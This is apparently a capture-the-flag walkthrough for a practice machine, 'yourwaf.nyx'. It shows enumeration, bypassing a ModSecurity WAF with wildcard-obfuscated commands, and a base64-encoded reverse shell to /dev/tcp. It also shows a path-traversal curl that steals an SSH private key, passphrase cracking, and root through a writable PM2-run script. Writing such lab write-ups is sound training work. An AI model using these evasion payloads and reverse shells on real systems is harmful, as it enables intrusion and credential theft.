


The machine has two flags, one for the user and one for root.

I tried to create a CTF to practice bypassing the Apache ModSecurity WAF.

I hope you enjoy it.

## Table of contents

## Enumeration, Ports, and Services

`$ nmap -p- 192.168.1.195 -oN nmap.txt -vvv`

We found 3 open ports: 22, 80, 3000 (SSH, HTTP, and ppp?). We look more closely at the three ports to try to get more information.

`$ nmap -sV -sC -A -p 80,22 192.168.1.195 -oN nmap2.txt -vvv`

Port 3000 appears to be a Node.js application with Express.

I try to access the web on port 80, redirecting to the domain www.yourwaf.nyx, add it to the /etc/hosts file and reload the address in the browser, this time via the domain.

A website appears with information about ModSecurity.

When I use the whatweb tool, it seems to be detected by the WAF, but when I add a different "User-Agent," it seems to get the results:

There are tools like whatwaf, but I don't see it necessary since the website shows information about ModSecurity.

[https://github.com/Ekultek/WhatWaf](https://github.com/Ekultek/WhatWaf)

We perform directory and file enumeration on the website but do not find anything interesting.

We see that we found port 3000 and it returns the message "Unauthorized," so we perform directory enumeration on this port.

We find several addresses on port 3000, but the only one that shows us information is the path http://www.yourwaf.nyx:3000/logs.

This address seems to show information from the Apache ModSecurity log. You can see all the times our "enumerations" have failed.

Since we have a domain, we try to check if there are subdomains or virtual hosts with other configured domains, we add a "User-Agent" to the scanner to avoid the WAF on the server:

We find another subdomain maintenance.yourwaf.nyx, add the subdomain to /etc/hosts, and open the browser to see what we find.

We find a magnificent command execution for server maintenance:

It is protected by the ModSecurity WAF, but we can try the following examples.

## Intrusion

If we enter `ls`:

If we enter `cat index.php`:

We try to use wildcard characters:
`/bin/cat index.php`

We try something with:

`/?i?/c?t index.php`

But it returns an error:

We try the same, but we also encode the output in base64:

`/?i?/c?t index.php | base64`

This time we get a text in base64:

When converting it to plain text, we finally get the source code of index.php after a lot of incomprehensible text of possible executed commands:

As you can see, the code has no validation, so we try to create a revshell that ModSecurity can "swallow":

We create a simple revshell and encode it in base64:

`sh -i >& /dev/tcp/192.168.1.116/433 0>&1`

In base64:

`c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ==`

The idea is to execute:

`/bin/echo c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /bin/bash -e`

If we execute it as is, it will show us a "Forbidden," but if we transform it with wildcard characters "?", for example:

`/???/e??o c2ggLWkgPiYgL2Rldi90Y3AvMTkyLjE2OC4xLjExNi80MzMgMD4mMQ== | base64 -d | /???/b??h -e`

We get a revshell with the user www-data.

## Lateral Movement to tester

Now we can enumerate system users

We see a user: tester.

To which groups does www-data belong:

Both in `/var/www/www.yourwaf.nyx` and in `/var/www/maintenance.yourwaf.nyx`, we do not find anything interesting, and the user www-data does not have permissions to modify anything here.

But we find something interesting in the `/opt/nodeapp` folder, which seems to be the application shown on port 3000. We look at the application code:

`www-data@yourwaf:/opt/nodeapp$ cat /opt/nodeapp/server.js`

As seen in the image below, you can pass a parameter with the token that appears in the code to call the private endpoints of the API on port 3000. This allows us to execute the /readfile endpoint to read files with this service run by the root user.

We have to be careful with the “/restart” endpoint as it will restart the server.

Using the data obtained from the API programming in node.js, we try to obtain the flags but do not succeed. However, we do manage to get the id_rsa of tester:

`curl -o id_rsa 'http://www.yourwaf.nyx:3000/readfile?api-token=8c2b6a304191b8e2d81aaa5d1131d83d&file=../../home/tester/.ssh/id_rsa'`

We get the id_rsa of tester:

We try to use the id_rsa to log in via ssh and the user tester, but it is protected with a passphrase. We try to crack it with rockyou.txt.

After a little while, no more than 5 minutes, we find the passphrase of the id_rsa.

## Privilege Escalation from tester to root

We log in via SSH with the id_rsa key and passphrase.

We see that the user belongs to the copylogs group. We check all the files we can write with the copylogs user.

I find a file that has write permissions inside the node.js application folder.

We see a file called ecosystem.config.js that belongs to the PM2 application, a daemon creator for node.js applications, and we see that it is installed.

As you can see in the file, copylogs.sh is executed every 10 seconds.

More information: https://pm2.keymetrics.io/

We modify the copylogs.sh file by inserting a revshell and start listening.

We access as root and can now see the root flag file.
